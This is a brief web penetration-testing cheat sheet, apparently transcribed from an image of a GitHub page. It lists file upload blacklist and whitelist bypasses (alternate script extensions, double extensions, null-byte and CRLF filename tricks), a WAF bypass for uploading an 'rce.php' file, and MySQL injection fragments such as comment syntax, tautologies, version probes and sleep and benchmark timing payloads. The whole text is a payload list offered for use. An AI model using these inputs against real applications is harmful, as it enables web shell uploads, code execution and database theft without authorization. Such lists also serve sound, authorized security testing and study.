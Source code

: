 ## Upload Function<br>

### Blacklisting Bypass
- PHP => `.php`, `.phtm`, `phtml`, `.phps`, `.pht`, `.php2`, `.php3`, `.php4`, `.php5`, `.shtml`, `.pahr`, `.pgif`, `.inc`<br>
- ASP => `.asp`, `.aspx`, `.cer`, `.asa`<br>
- JSP => `.jsp`, `.jspx`, `.jsw`, `.jsv`, `jspf`<br>

### Whitelisting Bypass
- file.jpg.php
- file.php.jpg
- file.php.blah123jpg
- file.php%00.jpt
- file.php\x00.jpt
- file.php%00
- file.php%20
- file.php%0d%0a.jpg
- file.php/
- file.php.\

---
## File Upload WAF Bypass
```
/?file=rce.php => Blocked
/?file=rce.php.jpg => Blocked
/?file=rce.php5 => Blocked
/?file===rce.php => Bypassed 200 OK
```

---
## SQL Injection<br>
### MySQL
```
- comments
#
--
/**/

- like
1=1, 1 in(1), 1 like 1, !(1<>1)

- count func
count()

- version check
@@version
version()
@@innodb_version;

- string split
mid()
right(left())
substr()
substring()

- sleep func
sleep(5), benchmark(40000000,md5(1));

- string to hex
ascii()
```